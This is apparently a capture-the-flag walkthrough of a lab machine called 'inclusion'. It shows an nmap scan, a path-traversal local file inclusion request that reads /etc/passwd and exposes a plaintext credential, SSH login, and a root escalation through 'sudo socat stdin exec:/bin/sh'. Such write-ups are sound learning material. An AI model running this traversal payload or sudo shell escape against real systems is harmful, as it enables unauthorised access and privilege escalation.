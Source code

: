 # Local File Inclusion (LFI)
[LFI](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

# nmap
```console
kali@kali:~$ sudo python3 pymap.py -t 10.10.14.166
created by gu2rks/kurohat 
find me here https://github.com/gu2rks

port scanning...
22/tcp open  ssh
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-04 09:05 EDT
Nmap scan report for 10.10.14.166
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   43.17 ms 10.8.0.1
2   43.17 ms 10.10.14.166

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.20 seconds
```

# foothold
- hacking http://10.10.14.166/article?name=hacking
- LFI http://10.10.14.166/article?name=lfiattack
- Remote File Inclusion (RFI) http://10.10.14.166/article?name=rfiattack

seem like LFI is here ```http://10.10.14.166/article?name=<filename>``` let try out by request for `/etc/passwd`. 


```http://10.10.14.166/article?name=../../../../../../../etc/passwd```. BINGO !!
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```
if you look carefully you will see a user cerdential + password. now ssh it to the machine
```console
kali@kali:~$ ssh falconfeast@10.10.14.166
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
```

# root
start by checking sudo command that falconfeast allow to run as root
```console
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

## socat
- [socat](https://linux.die.net/man/1/socat)
- [more about socat](https://medium.com/@copyconstruct/socat-29453e9fc8a6)
- [GTFObin](https://gtfobins.github.io/gtfobins/socat/)
```console
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
cat /root/root.txt
```
